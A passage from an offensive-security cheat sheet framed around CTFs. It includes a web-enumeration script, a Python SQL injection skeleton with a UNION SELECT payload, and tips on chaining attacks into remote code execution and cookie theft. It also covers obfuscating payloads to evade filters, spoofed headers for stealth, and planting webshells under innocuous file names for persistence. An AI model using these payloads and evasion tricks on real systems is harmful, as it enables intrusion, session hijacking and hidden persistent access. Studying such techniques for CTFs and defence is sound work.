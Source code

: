 ***

### XVIII. 🧠 Automation for CTFs

#### ⚙️ Web Enum Script

```bash
#!/bin/bash
url=$1
gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt -t 50
ffuf -u $url/FUZZ -w /usr/share/wordlists/raft-large-files.txt
whatweb $url
```

#### 💣 Python Exploit Skeleton

```python
import requests
url = "http://target.com/vuln.php"
payload = "' UNION SELECT 1,@@version,3-- -"
r = requests.get(url, params={"id": payload})
print(r.text)
```

***

### XIX. ⚔️ Pro Tips & Red Team Tricks

✅ **Chaining Attacks**

* SQLi → RCE via file write.
* XSS → cookie theft → session hijack.
* SSTI → reverse shell → local privilege escalation.

✅ **Obfuscation**

* Encode payloads (`base64`, `urlencode`).
* Replace keywords: `system` → `syst\u0065m`.

✅ **Automation**

* Integrate Burp Suite macros + Intruder for mass testing.
* Use `sqlmap --os-shell` for auto exploitation.

✅ **Stealth**

*   Use custom headers:

    ```
    X-Originating-IP: 127.0.0.1
    X-Forwarded-For: localhost
    ```

✅ **Persistence**

* Implant webshells under legitimate names:\
  `/uploads/cache.php`, `/img/.update.php`.
